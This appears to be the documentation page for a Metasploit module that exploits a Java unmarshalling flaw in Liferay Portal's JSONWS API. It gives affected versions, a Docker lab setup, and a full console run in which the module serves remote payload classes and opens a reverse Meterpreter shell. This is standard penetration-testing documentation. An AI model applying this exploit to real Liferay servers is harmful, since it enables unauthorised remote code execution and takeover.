 ## Vulnerable Application

### Description

This module exploits a Java unmarshalling vulnerability via JSONWS in
Liferay Portal versions < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4, and 7.2.1 GA2
to execute code as the Liferay user. Tested against 7.2.0 GA1.

### Setup

Install Docker using the [official instructions](https://docs.docker.com/get-docker/).
Follow the instructions for your platform and distribution (if using
Linux). If you're using OS X, you may prefer to `brew cask install docker`
after installing [Homebrew](https://brew.sh/).

**Note:** You may want to increase Docker's memory capacity up to 4 GB.
Liferay will crash at 2 GB or less. 4 GB seems to be the sweet spot.

Run `docker run -it -p 8080:8080 liferay/portal:7.2.0-ga1` (note the
added `7.2.0-ga1` tag) as per Liferay's [Docker Hub instructions](https://hub.docker.com/r/liferay/portal).
Any dependencies will be pulled automatically.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets Liferay Portal versions < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4,
and 7.2.1 GA2.

## Options

### SRVPORT

If you are testing the [Docker container](#setup), which binds to port
8080 by default, set this to a different port to avoid a port conflict
with the remote classloading server.

## Scenarios

### Liferay Portal 7.2.0 GA1 from [Docker Hub](https://hub.docker.com/r/liferay/portal)

```
msf5 > use exploit/multi/http/liferay_java_unmarshalling
msf5 exploit(multi/http/liferay_java_unmarshalling) > options

Module options (exploit/multi/http/liferay_java_unmarshalling):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Liferay Portal < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4, 7.2.1 GA2


msf5 exploit(multi/http/liferay_java_unmarshalling) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(multi/http/liferay_java_unmarshalling) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(multi/http/liferay_java_unmarshalling) > set srvport 8888
srvport => 8888
msf5 exploit(multi/http/liferay_java_unmarshalling) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Liferay 7.2.0 CE GA1 MAY be a vulnerable version. Please verify.
[*] Using URL: http://0.0.0.0:8888/
[*] Local IP: http://192.168.1.3:8888/
[+] Started remote classloader server at http://192.168.1.3:8888/
[*] Sending remote classloader gadget to http://127.0.0.1:8080/api/jsonws/expandocolumn/update-column
[*] GET /Uphxohekruuokpedknflsriuafhrdsfk.class requested
[+] Sending constructor class
[*] GET /metasploit/Payload.class requested
[+] Sending payload class
[*] HEAD /metasploit.dat requested
[+] Sending 200
[*] GET /metasploit.dat requested
[+] Sending payload config
[*] HEAD /metasploit/Payload.class requested
[+] Sending 200
[*] GET /metasploit/Payload.class requested
[+] Sending payload class
[*] Sending stage (53928 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:58271) at 2020-04-08 07:05:47 -0500
[*] Server stopped.

meterpreter > getuid
Server username: liferay
meterpreter > sysinfo
Computer    : 588a96d744cb
OS          : Linux 4.19.76-linuxkit (amd64)
Meterpreter : java/linux
meterpreter >
```

